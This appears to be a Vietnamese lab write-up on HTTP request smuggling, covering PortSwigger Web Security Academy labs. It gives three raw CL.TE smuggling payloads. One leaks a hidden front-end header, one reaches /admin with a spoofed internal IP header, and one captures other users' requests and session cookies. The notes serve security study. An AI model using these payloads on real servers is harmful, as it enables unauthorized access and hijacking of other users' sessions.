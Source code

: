 Trong 1 số trường hợp máy chủ phía trước sẽ gắn header ẩn để vào các path nhạy cảm

Các để tìm header là tìm 1 nơi có phản ánh ra như search, email,...

Sau đó 

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

Cái request thứ 2 để content length 200 nhằm lấy được request có thêm header ẩn

Sau đó 

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-abcdef-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
Connection: close

x=1
```

## Exploiting HTTP request smuggling to capture other users' requests

Tương tự kéo dài request để biết được cookie

payload

```http
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=your-session-token

csrf=your-csrf-token&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=&comment=test
```